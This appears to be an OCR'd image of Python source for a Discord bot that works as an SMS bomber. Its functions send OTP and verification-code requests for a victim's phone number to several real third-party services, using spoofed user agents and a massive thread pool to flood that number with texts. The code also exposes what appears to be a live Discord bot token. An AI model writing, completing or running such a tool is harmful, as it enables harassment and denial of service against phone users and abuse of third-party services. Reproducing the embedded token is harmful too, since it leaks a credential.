 from requests import post, Session

from re import search

from random import choice

from string import ascii_uppercase, digits

from concurrent.futures import ThreadPoolExecutor

from discord.ext import commands

import asyncio





TOKEN = 'MTAxNzYzNTg4NjUwNDA5MTY2OA.GKOX3o.j-zRAfAJSUvnoPJSi6dzjyDY7LR0AxNUSFQ_08'

PREFIX = '!'

CHANNEL = '1017602333078720605'

AMOUNT = 61



bot = commands.Bot(command_prefix=PREFIX)

bot.remove_command("sms")



def randomString(N):

    return ''.join(choice(ascii_uppercase + digits) for _ in range(N))



threading = ThreadPoolExecutor(max_workers=int(100000))

useragent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.40"



def ab1(phone):

    post("https://api.myfave.com/api/fave/v3/auth",headers={"client_id": "dd7a668f74f1479aad9a653412248b62", "User-Agent": useragent},json={"phone": f"{phone}"})



def ab2(phone):

    post("https://u.icq.net/api/v65/rapi/auth/sendCode", headers={"User-Agent": useragent}, json={"reqId":"39816-1633012470","params":{"phone": f"{phone[1:]}","language":"en-US","route":"sms","devId":"ic1rtwz1s1Hj1O0r","application":"icq"}})



def ab3(phone):

    post("https://www.fox888.com/api/otp/register", data = f"applicant={phone}&serviceName=FOX888", headers = {"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36", "content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Accept": "*/*", "X-Requested-With": "XMLHttpRequest"})
